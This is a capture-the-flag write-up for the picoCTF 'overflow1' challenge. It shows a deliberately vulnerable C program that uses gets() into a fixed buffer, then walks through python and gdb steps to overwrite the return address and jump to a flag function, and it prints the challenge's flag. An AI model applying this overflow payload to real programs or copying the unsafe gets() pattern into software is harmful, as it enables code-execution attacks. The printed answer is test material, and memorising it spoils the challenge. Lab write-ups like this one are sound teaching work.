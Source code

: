 # overflow1

## Problem

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a on the shell server.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

## Solution

Let's focus on the `vuln` function

```
#define BUFFSIZE 64
.
.
.
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}
```

It looks like the buffer size is meant to be 64, but `gets` doesn't verify the input length before happily copying
across. This time our goal is to over write out cap, and put the funciton address of the flag onto the stack in
the "return addess."

Let's take a quick look at what the stack might look like:

```
    +---------------+
    | old ebp       | <-- ebp
    +---------------+
    | ret           | <-- ebp + 0x4 (Return address for when "return" is called. This is our target)
    +---------------+
    | 0xdff83990    | <-- ebp + 0x8 (more stuff.....)
    +---------------+
```

Let's start by attempting to segfault the program with a nonsense buffer value. Input is coming in via keyboard with
this program, not command line arguments. So we need to change up how we pass in the exploit data. We will pipe it
in via standard input, instead:

```
python -c "print 'B'*64" | ./vuln
python -c "print 'B'*64 + 'B'*10 + 'A'*4" | ./vuln
python -c "print 'B'*64 + 'B'*12 + 'A'*4" | ./vuln
```

This vulnerable program is very helpful, and shows us the return address to help ensure we are doing things correctly.
From the output, we get to see the return address on the stack. Each run above shows when it begins to change. 12
bytes beyond our buffer appears to be the magic length to get our return address filled with A's (0x41414141). This is
what we see with the final execution above:

```
Give me a string and lets see what happens:
Woah, were jumping to 0x41414141 !
Segmentation fault (core dumped)
```

GREAT! Now, we need to dig a little deeper and figure out what the function address is for `void flag()`. If we can hijack the
return address so that vuln pops back to `flag()`, we'll win! To find the desired return address, we'll turn to
the `gdb` tool. With it, we can disassemble the compiled binary to see where the `flag` function resides.

```
gdb vuln

> diasm flag
```

We'll get a whole pile of disassembled assembly language code, which may or may not be a cipher unto itself to you. The
important thing is that since we disassembled the `flag` function specifically, it is that first line's hex address that
we want.

```
Dump of assembler code for function flag:
   0x080485e6 <+0>:     push   ebp
   0x080485e7 <+1>:     mov    ebp,esp
   0x080485e9 <+3>:     push   ebx
   0x080485ea <+4>:     sub    esp,0x54
   0x080485ed <+7>:     call   0x8048520 <__x86.get_pc_thunk.bx>
   0x080485f2 <+12>:    add    ebx,0x1a0e
   .
   .
   .
```

Flag func call address = `0x080485e6`

Let's replace the `'A'*4` part of our python code with the function return addess, and see what it does. One point to note:
numbers are stored in little endian (reversed byte direction) in this architecture, so we call `p32(0x080485e6)` using
pwntools to format the hex in little endian for us.

```
python -c "from pwn import *; print 'B'*64 + 'B'*12 + p32(0x080485e6)" | ./vuln
```

Success!

**Flag: picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}**
